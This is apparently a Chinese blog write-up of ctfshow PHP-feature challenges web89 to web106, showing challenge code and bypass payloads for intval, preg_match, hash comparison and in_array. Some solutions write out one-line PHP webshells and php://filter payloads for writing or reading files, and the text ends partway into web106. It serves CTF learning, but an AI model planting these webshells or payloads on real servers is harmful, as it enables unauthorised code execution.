---
title: "web入门php篇-ctfshow(已做完)"
date: 2024-11-10T13:31:35+08:00
summary: "web入门php篇-ctfshow(已做完)"
url: "/posts/web入门php篇-ctfshow(已做完)/"
categories:
  - "ctfshow"
tags:
  - "php特性"
draft: false
---

# 0x01基础知识

## php特性

放一下主要的知识点

## 调用命令的常用函数

在 PHP 中，exec、system 和、passthru 都是用来调用外部 Linux 命令的函数，但它们还是有区别的：

（1）system()

用于执行外部程序；
输出命令的执行结果到标准输出设备，并返回命令的最后一行结果；
可以通过传递第二个参数来捕获命令执行后的返回状态码。

（2）passthru()

用于执行外部程序；
将命令的原始输出直接发送到标准输出设备（通常是浏览器）；
不返回任何值，但可以通过第二个参数捕获命令执行后的返回状态码。

（3）exec()

用于执行外部程序；
不会输出结果到标准输出，而是将最后一行结果作为返回值返回；
如果传入第二个参数（数组），可以将所有输出保存到这个数组中；
第三个参数是一个整数变量，用于捕获命令执行后的返回状态码。

# 0x02题目

## web89

```php
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```


f(intval($num))--检查变量 `$num` 的整数值是否为真（即非零）

if(preg_match("/[0-9]/", $num))--用于检查变量 `$num` 是否包含至少一个数字字符（0-9）

### 关于preg_match

因为preg_match只能处理字符串，可以利用数组绕过，所以当传入的是数组时会返回false。

### intval()函数

`intval()` 函数是 PHP 中的一个内置函数，它用于获取变量的整数值。这个函数尝试将给定的变量转换为整数类型，并返回转换后的结果。

函数原型

```php
int intval ( mixed $var [, int $base = 10 ] )
```

### 数组绕过intval函数

 intval 转换数组类型时 不关心数组中的内容 只判断数组中有没有元素，而intval函数当传入的变量是非空数组的时候，会返回1

payload:

?num[]=1

## web90

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

`intval($num,0)===4476---intval($num, 0)` 将 `$num` 转换为整数。如果 `$num` 是字符串，可以转换为数字

### 强比较(===)

在 PHP 中，**强比较**（strict comparison）是指使用 `===` 和 `!==` 运算符进行的比较。这种比较不仅会检查两个值是否相等，还会检查它们的类型是否相同

- **强比较**（`===`）：比较值和类型，不进行转换。

- 举个例子:

  ```php
  $a = 5;          // 整数
  $b = "5";        // 字符串
  if ($a === $b) {
      echo "'$a' 和 '$b' 是相等的（强比较）。";
  } else {
      echo "'$a' 和 '$b' 不相等。"; // 这句会被执行
  }
  ```

  在这个例子中，由于 `$a` 是整数，而 `$b` 是字符串，因此比较结果为不相等。

### intval处理字符串

intval处理开头是数字的字符串时，返回值为开头的数

`intval()`输入的值，如果是字符串，它返回的内容取决于字符串最左侧的字符

`intval` 函数扫描参数字符串，跳过前面的空格字符，直到遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时(\0)结束转换，并将结果返回

paylaod:

?num=4476a

## web91

```php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

`preg_match('/^php$/im', $a)`---检查变量 `$a` 中的内容是否完全匹配“php”，且对大小写不敏感。

**`^`**：匹配字符串的开始位置。这意味着字符串必须从这个模式开始。

**`php`**：字面值“php”，表示我们要匹配的具体字符串。

**`$`**：匹配字符串的结束位置。这意味着字符串必须以这个模式结束。

**`i`**：这是一个修饰符，表示匹配时不区分大小写（case-insensitive）。因此，会匹配“php”、“PHP”、“Php”等。

### preg_match多行匹配修饰符

**`m`**：这是多行匹配修饰符，影响 `^` 和 `$` 的行为。在多行模式下，这两个符号也可以匹配每一行的开始和结束，而不仅仅是整个字符串的开始和结束。在这个特定的例子中，`m` 修饰符的影响不大，因为我们是匹配整个字符串。

- im模式是可以匹配很多行,i模式只能匹配一行

意味着这里的第一层匹配的是多行的php，而第二行匹配的是单行的php，所以我们加个换行符就行

payload:

`?cmd=0%0aphp`

## web92

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

### 弱比较(==)

"弱比较"（或称为"非严格比较"）通常指的是在比较两个值时，不考虑它们的数据类型。当使用这个运算符比较两个值时，PHP 会尝试将它们转换为相同的类型，然后进行比较。**但是弱比较（例如使用 `==` 运算符）不会进行进制转换**

举个例子

```php
$a = 5;          // 整数
$b = "5";        // 字符串

if ($a == $b) {
    echo "'$a' 和 '$b' 是相等的（弱比较）。"; // 这句会被执行
} else {
    echo "'$a' 和 '$b' 不相等。";
}
```

在这个例子中，尽管 `$a` 是一个整数，而 `$b` 是一个字符串，但由于弱比较，PHP 会将 `$b` 转换为整数，然后比较，因此判断结果为相等。

#### 和强比较的区别

两个等号是**先把等号两边的变量转化成相同的类型**，如果转换类型后的结果是相等的，就认为相等。

三个等号是**先判断两边变量的数据类型**，如果数据类型相同，再去判断两边的值，如果值相等，那么为真。

### 关于intval()函数汇总

**intval** 函数是PHP中用于获取变量的整数值的函数。它通过使用指定的进制（默认是十进制）来转换变量，并返回其整数值。

#### **intval** 函数的基本语法

```php
int intval(mixed $var [, int $base = 10])
```

其中，*$var* 是需要转换成整数的变量，*$base* 是转换所使用的进制。如果*$base*是0，则会根据*$var*的格式来决定使用的进制。例如，如果字符串以"0x"开头，则使用16进制；如果字符串以"0"开头，则使用8进制；否则，默认使用10进制。**intval** 函数的返回值是变量的整数值。如果转换失败，它会返回0。对于空数组，它返回0，而对于非空数组，它返回1。

#### intval绕过思路

在某些情况下，**intval** 函数可能被用于验证输入值。如果某个特定的值被过滤或禁止，可以通过**改变进制或添加小数点**等方式来绕过这些限制。例如，如果数字10被过滤，可以使用它的8进制表示*012*或16进制表示*0xA*来绕过。对于弱类型比较（如*a==b*），可以传入空数组使得比较结果为*true*。此外，如果需要绕过数字限制，可以通过增加小数位（如*3.1*）或使用算术运算符（如*5+5*）来实现。

payload:

方法一:使用非十进制数传递

```
?num=010574(八进制)
?num=0x117c(十六进制)
```

方法二:使用科学计数法

```
?num=4476e123
```

(根据intval处理字符串的机制)

## web93

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

禁用了字母，但采用八进制和小数点都可以绕过

### 弱比较之浮点数和整数

在 PHP 中，弱比较（使用 `==` 运算符）确实可能会受到小数点的影响，浮点数和字符串中的数字在 PHP 中可以通过弱比较被认为是相等的，前提是它们的数值相同。但对于浮点数4476.1和整数4476在php中整数在比较时会被视为浮点数，php会将4476转化成浮点数4476.1，然后进行比较，可见这两个浮点数是不相等的。详细可以参考类型转换的规则

payload:

`?num=4476.1`or`?num=?num=010574(八进制)`

## web94

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

strpos($num, "0")

### strpos函数

在 PHP 中，`strpos()` 函数用于查找一个字符串在另一个字符串中首次出现的位置

基本语法：

`strpos(string $haystack, string $needle, int $offset = 0): int|false`

- **$haystack**：要搜索的字符串。
- **$needle**：要查找的字符串（或字符）。
- **$offset**：可选的参数，指定从哪个位置开始搜索。

- 如果找到了字符，`strpos()` 会返回字符首次出现的位置（从 `0` 开始计数）。

所以这道题的payload中必须有0 但不能是开头为0，如果开头为0会导致输出的0所在的位置是0，那么!0就是1，就会执行里面的die函数

payload:

`?num=4476.0`或者在010574八进制数字前加上空格符(其他换行符什么的也行)或者+号保证第一个0出现的位置不是0

## web95

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这次比之前多过滤了小数点，那就不用小数点进行绕过，我们用八进制加上一些空白符号就行了

payload:

?num=%20010574

# web96

```php

highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

过滤了flag.php

### highlight_file()函数

```
highlight_file($filename,$return)
$filename  必需。要进行高亮处理的 PHP 文件的路径。
$return     可选。如果设置 true，则本函数返回高亮处理的代码。
```

这里使用绝对路径或者当前路径绕过：

`u=./flag.php    //相对路径
u=/var/www/html/flag.php   //由于绝对路径是已知的，所以直接使用`

或者可以用php伪协议去做

`?u=php://filter/resource=flag.php`

`u=php://filter/read=convert.base64-encode/resource=flag.php`

因为这个条件语句检查 URL 查询参数 `u` 的值是否等于字符串 `'flag.php'`

但是这个只读流的值实际上是一个特殊的过滤器，而不是简单的字符串 `'flag.php'`。具体如下：

1. **`php://filter`**：这是一个 URL 流，允许你使用 PHP 内置的过滤器来读取或写入数据。
2. **`read=convert.base64-encode`**：这部分指定了一个过滤器，它会将 `flag.php` 资源的内容读取并进行 Base64 编码。
3. **`resource=flag.php`**：这部分指定了要读取的资源。

## web97

```php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

md5($_POST['a']) === md5($_POST['b'])--用来比较两个通过 HTTP POST 请求提交的字段 `a` 和 `b` 的 MD5 哈希值是否相等

要求：1、用 POST 方式传递参数

　　  2、参数 a、b 不相等

　　  3、两参数 MD5 相等

### md5哈希值

MD5（Message-Digest Algorithm 5）是一种广泛使用的哈希函数，它会将任意长度的数据（通常是字符串）映射为一个固定长度的输出，即 128 位（16 字节）的哈希值。通常，MD5 的输出以 32 位的十六进制数字表示。

对于php强比较和弱比较：md5()函数无法处理数组，如果传入的为数组，会返回NULL，两个数组经过加密后得到的都是NULL，也就是相等的。

做题方法:

#### 用数组进行绕过md5验证

传入两个不同的数组，经md5加密后结果都是null，比较则相等

payload:

`a[]=1&b[]=2`

(注意不要让这两个数组的元素值相等哈，不然就不会绕过第一层判断了)

#### md5强碰撞

对于 md5 强碰撞，我们需要找到两个 md5 值真正相同的数据。

payload:

十六进制格式的两个不同字符串：

`4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa200a8284bf36e8e4b55b35f427593d849676da0d1555d8360fb5f07fea2`
`4dc968ff0ee35c209572d4777b721587d36fa7b21bdc56b74a3dc0783e7b9518afbfa202a8284bf36e8e4b55b35f427593d849676da0d1d55d8360fb5f07fea2`
两者都有 MD5 哈希： 

`008ee33a9d58b51cfeb425b0959121c9`

还有一个特别的方法，是关于md5在弱比较下的缺点漏洞

在弱比较中

对于某些特殊的字符串加密后得到的密文以0e开头，PHP会当作科学计数法来处理，也就是0的n次方，得到的值比较的时候都相同。但是这里并不是弱比较，因此该方法不行，可以作为方法进行积累应用

## web98

```php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
?>
```

*$GET?$GET=&$_POST:'flag'--$_GET 变量是一个数组，内容是 GET 方法发送的变量名称和值，类似于字典。 如果 $_GET 变量不为空，则 $_GET 变量和 $_POST 变量指向同一个地址，即$_POST 变量内容会影响 $_GET 变量的内容。 如果 $_GET 变量为空，整个三元表达式的结果为 ’flag’。*

$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';--如果 flag 变量值为 ’flag’，则 $_GET 变量和 $_COOKIE 变量指向同一个地址； 否则返回flag.

$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';--如果flag变量值为’flag’，则 $_GET 变量和 $_SERVER 变量指向同一个地址； 否则返回flag。

highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);--如果 HTTP_FLAG 变量值为 ’flag’，输出 $flag，否则输出当前文件。

知识点

### 　　1、**if 语句简写**

#### 　　　　（1）执行单条语句

#### 　　　　（2）三目运算符

　　　　　　格式：条件? 语句1: 语句2（条件为真，执行语句1；条件为假，执行语句2）

　　　　　　if 语句格式 if(条件){语句1}else{语句2}

#### 　　　　（3）符号 || &&

### 　　2、**预定义变量**

　　　　预定义变量都是关联数组类型

　　　　（1）服务器变量：$_SERVER

　　　　（2）HTTP GET变量：$_GET

　　　　（3）HTTP POST变量：$_POST

　　　　（4）HTTP cookies：$_COOKIE

解题方法

让$_GET['HTTP_FLAG']=='flag'，我们就应该用第一行的方法

先GET传参随便传一个然后再POST传参HTTP_FLAG=flag

payload:

```
get   flag=a
post  HTTP_FLAG=flag
```

## web99

```php
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
?>
```

先审一下代码：

$allow = array();--创建了一个空数组 $allow，用来存储后续生成的随机数。

**array_push**($allow, **rand**(1, $i))代码解释

### 相关函数

#### rand()函数

- `rand()` 函数
  - 这是 PHP 中的一个内置函数，用于生成一个随机整数。
  - 语法为 `**rand(int $min, int $max)**`，其中 `$min` 是生成随机数的下限，`$max` 是上限。
  - 在这里，`rand(1, $i)` 会生成一个介于 1 和 `$i`（当前循环迭代中的值）之间的随机整数。

#### `array_push()`函数

- `array_push()` 函数
  - 这是 PHP 中用于向数组末尾添加一个或多个元素的函数。
  - 语法为 `array_push(array &$array, mixed ...$values)`，其中 `$array` 是要添加元素的数组，`$values` 是一个或多个要添加的值。
  - 在这里，`$allow` 是目标数组，而 `rand(1, $i)` 生成的随机数就是要添加的值。

#### `in_array()` 函数

- 这是 PHP 的一个内置函数，用于检查指定的值是否存在于数组中。

- 语法是

  ```php
  in_array(mixed $needle, array $haystack, bool $strict = false)
  ```

  - **`$needle`**: 要搜索的值（在这个例子中是 `$_GET['n']`）。
  - **`$haystack`**: 要搜索的数组（在这个例子中是 `$allow`）。
  - **`$strict`**（可选）：如果为 `true`，则在比较时会进行类型检查。

注:in_array()函数默认采用的是弱比较，在进行检查比较的时候回自动进行类型转换，我们来验证一下

```php
<?php
$a='1.php';
$b=array(1,2,3,4,5);
if(in_array($a,$b)){
    echo "yes";
}

 #输出结果是yes，证明1和1.php是相等的，即通过了弱比较  
```

**in_array() 函数存在弱比较的漏洞，如果没有设置第三个参数，in_array()  函数在比较时默认是弱类型比较，这意味着它会进行自动类型转换。例如数组中的元素是整数，而搜索的值是字符串，PHP  会尝试将字符串转换为整数来进行比较。比如上面字符串类型的 1.php 就自动转换为了整数 1，也就符合在数组中的条件。**

#### `file_put_contents()`函数

- 这是 PHP 的一个内置函数，用于将字符串写入文件。如果文件不存在，它会创建一个新文件；如果文件已存在，它会覆盖原文件的内容。

- 语法为

  ```php
  file_put_contents(string $filename, mixed $data, int $flags = 0, resource $context = null)
  ```

  - **`$filename`**: 要写入的文件名，通常是包含路径的字符串。
  - **`$data`**: 要写入文件的内容，可以是字符串。
  - **`$flags`**（可选）：可以使用的标志，例如 `FILE_APPEND` 来附加内容。
  - **`$context`**（可选）：文件句柄的上下文
  
  记住，我们也可以通过伪协议将文件名写入

返回来看题目

已知for循环里面的i初始值为36，那么数组中必然存在1-36之间的数，所以这时候我们可以猜测其中的数字

因为我们知道了in_array()是弱比较类型，所以我们可以直接构造数字+文件名去绕过验证

payload:

`?n=1.php`	我个人觉得1的概率是最大了

`content=<?php eval($_POST[1]);?>`

分别用get和post传入参数

之后访问1.php，再往一句话木马参数中传入命令或者用蚁剑进行连接，就可以拿到flag了

## web100

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

看到提示flag在class ctfshow中，那就访问看看，发现什么都没有

解析代码

#### is_numeric()函数

`is_numeric()` 函数用于检测一个变量是否为数字或数字字符串这个函数返回一个布尔值：如果变量是数字或可以被转换为数字的字符串，则返回 `true`，否则返回 `false`。

函数原型

`bool is_numeric(mixed $var)`

举个例子

```php
<?php
// 示例 1: 整数
$var1 = 123;
echo is_numeric($var1) ? 'true' : 'false'; // 输出: true
// 示例 2: 浮点数
$var2 = 123.45;
echo is_numeric($var2) ? 'true' : 'false'; // 输出: true
// 示例 3: 数字字符串
$var3 = "123";
echo is_numeric($var3) ? 'true' : 'false'; // 输出: true
```

$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3)

- 这里是为了检查这三个变量是否都为数字或者数字字符串，并将结果存储在变量 `$v0` 中，如果三个布尔值为true，v0才会为true

v0为true，进入if嵌套判断，要求v2不能包含；但v3得有；，最后执行eval语句

但是这里要注意一个点:

#### 运算符优先极

v0赋值，赋值`=`的优先级高于逻辑运算。所以只要让is_numeric($v1)返回true即可满足if判断，所以v2和v3不需要为数字

解题:

对于v1：题目中v1没什么用处，所以v1直接设置一个数字或者数字字符串就可以了

v1=1

对于v2：在题目中可以看到后面有很多字符串，但当时没想到怎么利用这些字符串，就想着把后面的注释掉

v2=var_dump($ctfshow)/*---这里加上(/\*)就是为了注释掉，这里也可以用其他输出函数，或者用正常的命令执行函数也可以

对于v3：因为v3需要闭合哪个注释符号，还需要带分号

v3=\*/;

将这三个参数传入

payload:

?v1=1&v2=system('ls')/\**&v3=\**/;

然后查看ctfshow.php

需要将 0x2d 替换为 - ，结果再使用 ctfshow{} 包裹。

## web101

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}
?>
```

跟上题一样，但过滤了很多字符，这里的话我们先用脚本看一下有哪些字符是没有被过滤的

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/",chr($i))){
            echo chr($i)." ";
        }
}

?>
#输出结果
# & ( : < > A B C D E F G H I J K L M N O P Q R S T U V W X Y Z ] a b c d e f g h i j k l m n o p q r s t u v w x y z | }
```

这里的话正常的命令函数是用不了了的，我一开始也没什么头绪，所以果断去看wp

### 利用反射类查看类

#### 反射类： ReflectionClass

`ReflectionClass` 是 PHP 反射 API 中的一个类，专门用于对类的结构进行反射。通过 `ReflectionClass`，开发者可以在运行时获取有关类的详细信息，例如类的名称、方法、属性、常量等。它允许动态访问类的特性，从而使得程序能够更灵活地处理对象。

用法:创建一个 ReflectionClass 实例

`$reflection = **new** **ReflectionClass**('ClassName');`

##### 常用方法

1. **获取类的信息**
   - `getName()`: 获取类的名称。
   - `getShortName()`: 获取类的短名称（不包含命名空间）。
   - `getNamespaceName()`: 获取类的命名空间。
   - `getParentClass()`: 获取父类的反射对象（如果没有父类，则返回 `false`）。
   - `getInterfaces()`: 获取类实现的所有接口。
2. **获取类的属性**
   - `getProperties()`: 获取类的所有属性，返回一个 `ReflectionProperty` 对象数组。
   - `getProperty($name)`: 获取指定名称的属性的反射对象。
3. **获取类的方法**
   - `getMethods()`: 获取类的所有方法，返回一个 `ReflectionMethod` 对象数组。
   - `getMethod($name)`: 获取指定名称的方法的反射对象。
4. **获取类的常量**
   - `getConstants()`: 获取类的所有常量。
5. **创建类的实例**
   - `newInstance()`: 创建类的实例。
   - `newInstanceArgs(array $args)`: 使用参数创建类的实例。
6. **检查可见性**
   - `isInstantiable()`: 检查类是否可以被实例化。
   - `isAbstract()`: 检查类是否为抽象类。
   - `isFinal()`: 检查类是否为最终类。

payload：v1=1&v2=echo new ReflectionClass&v3=;

输入后就可以拿到flag，把0x2d换成-就可以，但注意这里flag少了一位需要爆破才能拿到

## web102

```php
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?>

```

我们只介绍新的知识点

### 相关函数

#### `substr()` 函数

是 PHP 中用于提取字符串子部分的一个非常有用的函数。它可以从指定的位置开始提取字符串的部分内容，并且可以选择性地指定提取的长度。

`substr()` 函数的基本语法

```php
string substr(string $string, int $start, int $length = null)
```

- **`$string`**: 要提取子字符串的原始字符串。
- **`$start`**: 开始提取的起始位置（以 0 开始计数）。如果为负数，则表示从字符串末尾开始的偏移量。
- **`$length`**: 提取的子字符串的长度（可选）。如果省略，`substr()` 将提取到字符串的末尾。如果为负数，则表示从提取的末尾开始的长度。

#### call_user_func()函数

call_user_func() 调用方法或变量,第一个参数是调用的对象，第二个参数是被调用对象的参数

call_user_func()函数的基本语法

```php
mixed call_user_func(callable $callback, mixed ...$parameters)
```

参数说明

- **`$callback`**: 要调用的函数名、方法名或者是一个包含对象和方法名的数组。可以是字符串、数组（对象和方法名）或匿名函数。
- **`$parameters`**: 传递给回调函数的参数，可以是一个或多个参数。使用可变参数（...）的方式可以传递任意数量的参数。

代码审计:

$s = substr($v2,2);--从$v2的第二个字符开始截取字符串赋值给$s

$str = call_user_func($v1,$s);--调用v1指定的函数，然后将s作为参数传递给函数，并将函数的返回值赋值给str

file_put_contents($v3,$str);--将str写入v3指定的文件中

解题:

这里要求v2必须为数字或者数字字符串，而且还会将v2从第三位数字开始截取并作为参数进入v1函数，而后将形成的payload写入v3文件中

如果v2必须为数字且v2得包含shell的话，就应该对v2的shell进行编码了

payload:

```php
$a = '<?=`cat *`;'; // 定义一个字符串，包含 PHP 的短标签和一个 shell 命令
$b = base64_encode($a); // 将字符串进行 Base64 编码
$c = bin2hex($b); // 将 Base64 编码后的字符串转换为十六进制格式
echo $c; // 输出十六进制字符串
```

这里的话对v2的basse64编码后的字符串进行了二进制转化，所以我们的外围函数v1应该是一个可以进行解码的函数，所以我们v1设为hex2bin，但是当我们的shell进行base64编码后，发现多出了一个等于号，我们得把他去掉，不然在进行hex解码的时候末尾会出现3d，去掉不会对结果造成影响

#### hex2bin()函数

`hex2bin()` 是 PHP 中的一个函数，用于将十六进制字符串转换为二进制字符串

`hex2bin()` 的基本语法

```php
string hex2bin(string $hex_string)
```

bin2hex()函数就是相反的了

注意，我们的 payload 是从 v2 第三位开始的，因此前面需要增加两个数字，绕过 substr 函数。 

最终的paylaod就是:

GET:v2=11504438395948526859794171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

POST:v1=hex2bin

正常来说对于file_put_contents()的话应该是第一个参数是文件名第二个参数是文件内容，但因为这里对v2进行了相关的处理，导致我们需要对v2传入设立了，所以v3想写成文件名的话就需要我们利用伪协议去写文件名

所以这就是为什么v3传入伪协议的原因

我们正常传入三个参数后会有回显信息，页面上的编码就是我们传入的shell



访问我们的木马，然后在源代码中就可以看到我们的flag了

## web103

```php
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

这道题比之前增加了验证

### preg_match中*/的作用

- **`.\*`**: 表示零个或多个任意字符（除了换行符）。`.*` 的含义是可以匹配任意字符的任意数量（包括零个字符）。

代码中的意思就是如果php之间有其他分割的字符，都会被当作php进行处理

这道题其实和上一题是一样的，但需要注意的是写马的时候注意不要有php字符串，可以用php短标签去进行绕过一句话木马的php

，用通配符去匹配flag文件的php后缀，而我们的参数中只有v3是带有php的，但正则匹配不影响v3，所以正常做就可以了

## web104

```php
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
?>
```

### 相关函数

#### sha1()函数

在 PHP 中，`sha1()` 是一个用于计算字符串的 SHA-1 哈希值的函数

sha1()函数的基本语法

`string sha1(string $str, bool $raw_output = false)`

- **`$str`**：要哈希的字符串。
- **`$raw_output`**：一个可选参数。如果设置为 `true`，则返回原始的二进制数据；如果为 `false`（默认值），则返回十六进制格式的字符串。

举例子:

```php
<?php
$a = "hello world";
$hash = sha1($a);
echo $hash;

#输出sha-1哈希值2aae6c35c94fcfb415dbe95f408b9ce91ee846ed
```

这里没有设置第二个参数，默认为返回十六进制格式的哈希值

如果是二进制的话，那就设置一下sha1函数中第二个参数为true就可以了

只要v1和v2sha1哈希值相等就行了，严重怀疑这道题是拿来凑数的哈哈哈哈

## web105



### 相关函数

#### foreach()函数

在 PHP 中，`foreach` 是一个用于遍历数组的控制结构。

foreach的基本语法

```php
foreach ($array as $value) {
    // 对于每个数组元素执行的代码
}

```

#### $$a=$$b

`$$key = $$value;` 是一个使用可变变量的表达式

首先我们应该先理解一下这个$$key=$$value，存在两个`$`的等式，可以使用php的变量覆盖

可变变量在 PHP 中允许你通过一个变量的值来创建另一个变量。例如：

```
$foo = "bar";  // 这里定义了一个变量 $foo，值为 "bar"
$$foo = "baz"; // 这里创建了一个新的变量 $bar，值为 "baz"
```

在这个例子中，`$$foo`实际上是 `$bar`，所以执行后，`$bar` 的值将是 `"baz"`。

代码审计:

**`foreach ($_GET as $key => $value)`**: 对 `$_GET` 数组进行遍历。,$key为数组中的键，而$value为值

第一个if语句要求key键中不能有error，例如我们get传参?error=1则会i返回what are you doing

第二个if语句要求value值不能等于flag，不然就会执行die函数

解题

分析代码：尝试让`$suces`或者`$error`存放flag值，两个foreach语句后都里一个`$$key=$$value`，可以让参数名是suces或error，值传递flag，则`$$key`是`$suces`或`$error`，`$$value`是`$flag`。

因为get限制了key不能error，所以参数名为suces，由于post里value值不能是flag，所以用get传递。post的代码在get之后执行，可以让`$error`的值为`$suces`，这样三个变量都是flag值，那么后面的语句，无论判断结果如何，都会输出flag。

payload:

GET传入suces=flag

POST传入error=suces

这题妙就妙在通过 $flag 替换 $error，然后在倒数第二步 die($error) 的时候输出的就是 flag

## web106

```php
include("flag.php");
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
